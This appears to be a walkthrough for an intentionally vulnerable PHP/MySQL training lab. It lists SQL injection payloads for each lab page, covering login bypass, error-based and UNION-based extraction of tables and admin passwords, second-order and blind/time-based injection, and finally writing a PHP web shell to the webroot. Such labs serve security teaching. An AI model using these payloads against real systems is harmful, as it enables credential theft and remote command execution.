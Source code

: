# Walkthrough document
This document explains the different attacks that can be done on this setup

## Registration
Use the register.php to create users

## Login bypass attack
Bypassing login using boolean expressions

1. **Page:** login1.php
   **Attack:** 
   
```
- ' OR 1=1 -- // 
- admin' OR 1=1 -- // 
```

2. **Page:** login2.php
    **Attack:** 

```
- admin') -- //  
```

## Verbose SQL Error based Injection
Forcing error conditions to reveal and extract data
1. **Page:** login1.php 
   **Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //
- ' or 1 in (select password from users where username = 'admin') -- //
```

## Extracting data using UNION queries
Using a pre existing SQL select query to fetch additional data from the DB
1. **Page:** searchproducts.php 
   **Attack:**

```
- ' order by 5 -- //
- ' union select 1,2,3,4,5 -- //
- ' union select null, null, database(), user(), @@version -- //
- ' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //
- ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
- ' union select null, id, username, password, fname from users -- //
```

## Second order SQL injection
User input is stored and reused as is in a different function that has no protection
1. **Page:** secondorder_register.php
**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection
1. **Page:** blindsqli.php
**Attack:**

```
- ?user=1' and 1=1 -- //
- ?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- // 
- ?user=1' union select if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- // 
``` 

## OS interaction
1. **Page:** os_sqli.php 
**Attack:** 

```
- ?user=qqqq' union select null, null, null, '<pre><?php system($_GET[\'cmd\']); ?></pre>', null into outfile '/path/to/webroot/writable/dir/shell.php' -- //
```